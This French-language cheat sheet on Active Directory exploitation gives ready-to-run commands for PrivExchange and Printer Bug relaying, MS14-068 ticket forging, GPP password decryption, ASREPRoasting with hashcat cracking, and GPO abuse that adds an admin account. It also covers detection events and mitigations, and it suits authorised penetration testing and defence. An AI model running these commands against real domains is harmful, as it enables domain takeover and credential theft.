

## Exchange Related Group Membership

### Exploitation

Les membres des groupes **Exchange Windows Permissions** et **Organization Management** possèdent des privilèges élevés permettant souvent d'atteindre le contrôle total du domaine.

*   **Exchange Windows Permissions** : Permet de modifier les **DACLs** et d'accorder des droits **DCSync**.
*   **Organization Management** : Accès aux boîtes mails et contrôle sur les **Microsoft Exchange Security Groups**.

L'attaque **PrivExchange** consiste à forcer le serveur Exchange à s'authentifier auprès d'un attaquant via **LDAP Relay** :

```bash
ntlmrelayx.py -t ldap://target-dc --escalate-user <username>
```

## Printer Bug (MS-RPRN)

### Exploitation

Le service **Spooler** peut être abusé pour forcer une authentification **NTLM** vers un attaquant.

> [!danger]
> Le Printer Bug nécessite que le service Spooler soit actif sur la cible.

*   **Escalade en DCSync** avec relai **LDAP** :
    ```bash
    ntlmrelayx.py -t ldap://target-dc --escalate-user <username>
    ```

*   **Escalade en RBCD** avec **krbrelayx** :
    ```bash
    python3 krbrelayx.py -hashes <NTLM Hash> -delegate -smb
    ```

> [!note]
> Le relayage **LDAP** nécessite que la signature **LDAP** soit désactivée sur le DC.

## MS14-068 (Kerberos Ticket Forging)

### Exploitation

Cette vulnérabilité permet de forger un **PAC** (Privilege Attribute Certificate) pour élever les privilèges d'un utilisateur standard en **Domain Admin**.

```bash
python3 ms14-068.py -u <user> -p <password> -d <domain> -t <dc-ip>
```

## Sniffing LDAP Credentials

### Exploitation

Il est possible d'intercepter des identifiants **LDAP** lors de tests de connexion ou via des services mal configurés.

*   Setup d'un listener :
    ```bash
    nc -lvnp 389
    ```

*   **LDAP honeypot** :
    ```bash
    slapd -h "ldap:/// ldaps:///"
    ```

## Enumeration DNS avec Adidnsdump

### Reconnaissance

L'outil **adidnsdump** permet d'extraire l'intégralité des entrées **DNS** de l'Active Directory.

```bash
adidnsdump -u DOMAIN\\user -p password -r ldap://<DC_IP>
```

## Password in Description Field

### Exploitation

Les administrateurs stockent parfois des mots de passe en clair dans le champ description des objets utilisateurs.

```powershell
Get-DomainUser * | Select samaccountname,description | Where-Object {$_.Description -ne $null}
```

## PASSWD_NOTREQD Field

### Exploitation

L'attribut **PASSWD_NOTREQD** indique que le compte ne nécessite pas de mot de passe, ce qui constitue une faille critique.

```powershell
Get-DomainUser -UACFilter PASSWD_NOTREQD | Select samaccountname,useraccountcontrol
```

## Credentials in SMB Shares et SYSVOL Scripts

### Exploitation

Le partage **SYSVOL** contient souvent des scripts de connexion (logon scripts) ou des fichiers de configuration contenant des identifiants en clair.

```powershell
ls \\<DC>\SYSVOL\<domain>\scripts
cat \\<DC>\SYSVOL\<domain>\scripts\script.ps1
```

## GPP Passwords

### Exploitation

Les **Group Policy Preferences** (GPP) peuvent contenir des mots de passe chiffrés avec une clé publique connue.

*   Recherche dans **Groups.xml** :
    ```powershell
    Get-GPPPassword
    ```

*   Décryptage de cpassword :
    ```bash
    gpp-decrypt <hash>
    ```

## ASREPRoasting

### Exploitation

Cette attaque cible les comptes utilisateurs qui n'ont pas l'option **Do not require Kerberos pre-authentication** activée.

> [!warning]
> Attention au verrouillage des comptes lors du bruteforce ou de l'ASREPRoasting.

*   Enumération des comptes vulnérables :
    ```powershell
    Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
    ```

*   Récupération des **TGT** :
    ```bash
    GetNPUsers.py domain/ -dc-ip <DC_IP> -no-pass
    ```

*   Cracking avec **hashcat** :
    ```bash
    hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt
    ```

## GPO Abuse

### Exploitation

Si un utilisateur possède des droits d'écriture sur une **GPO**, il peut modifier les paramètres de sécurité du domaine.

> [!danger]
> L'exploitation de GPO Abuse peut être bruyante et générer des logs d'événements critiques (Event ID 5136).

*   Vérification des **GPO** modifiables :
    ```powershell
    Get-DomainGPO | Get-ObjectAcl | Where-Object {$_.IdentityReference -match "<user>"}
    ```

*   Ajout d'un utilisateur admin via **SharpGPOAbuse.exe** :
    ```powershell
    SharpGPOAbuse.exe --AddLocalAdmin --User "Attacker" --GPOName "TargetGPO"
    ```

## BloodHound Query Mapping

### Analyse

L'utilisation de **BloodHound Analysis** permet de visualiser les chemins d'attaque complexes liés à ces mauvaises configurations.

| Attaque | Requête Cypher |
| :--- | :--- |
| **GPO Abuse** | `MATCH p=shortestPath((u:User {name:"USER@DOMAIN.COM"})-[*1..]->(g:GPO)) RETURN p` |
| **ASREPRoasting** | `MATCH (u:User {dontreqpreauth:true}) RETURN u` |
| **Exchange Privs** | `MATCH (u:User)-[:MemberOf]->(g:Group {name:"EXCHANGE WINDOWS PERMISSIONS@DOMAIN.COM"}) RETURN u` |

## Prerequisites/Constraints

*   **Signature LDAP** : La plupart des attaques de type relay (Printer Bug, PrivExchange) échouent si `LDAPServerIntegrity` est activé sur le contrôleur de domaine.
*   **Service Spooler** : Le Printer Bug nécessite que le service `spoolsv.exe` soit démarré sur la cible.
*   **Droits d'accès** : L'énumération initiale (ex: `Get-DomainUser`) nécessite un accès utilisateur authentifié standard au domaine.

## Detection/Monitoring

*   **Event ID 5136** : Modification d'un objet annuaire (critique pour GPO Abuse).
*   **Event ID 4624/4672** : Connexions avec des privilèges élevés, particulièrement si elles proviennent d'adresses IP inhabituelles (Relay).
*   **Event ID 4768/4769** : Surveillance des tickets Kerberos anormaux (ASREPRoasting, MS14-068).
*   **Logs Sysmon** : Surveillance des processus suspects comme `SharpGPOAbuse.exe` ou des exécutions PowerShell encodées.

## Mitigation/Remediation

*   **GPO** : Appliquer le principe du moindre privilège sur les permissions d'édition des GPO.
*   **LDAP** : Activer la signature et le scellement LDAP (LDAPS) sur tous les contrôleurs de domaine.
*   **Service Spooler** : Désactiver le service Spooler sur les serveurs où il n'est pas nécessaire via GPO.
*   **Comptes** : Désactiver les comptes inutilisés et appliquer des politiques de mots de passe robustes (éviter `PASSWD_NOTREQD`).
*   **Exchange** : Appliquer les correctifs de sécurité Microsoft pour limiter les privilèges excessifs des groupes Exchange.

## Cleanup/Post-Exploitation

*   **Suppression des objets** : Supprimer les utilisateurs créés (ex: via `SharpGPOAbuse`) et restaurer les GPO à leur état initial.
*   **Nettoyage des tickets** : Purger les tickets Kerberos en mémoire sur les machines compromises (`klist purge`).
*   **Logs** : Vérifier si des logs d'audit ont été générés et évaluer le risque de détection par le SOC.

Ces techniques s'inscrivent dans une méthodologie d'**Active Directory Enumeration** et peuvent être corrélées via **BloodHound Analysis**. L'exploitation réussie repose souvent sur le chaînage avec des **NTLM Relay Attacks** ou des techniques de **Kerberoasting**.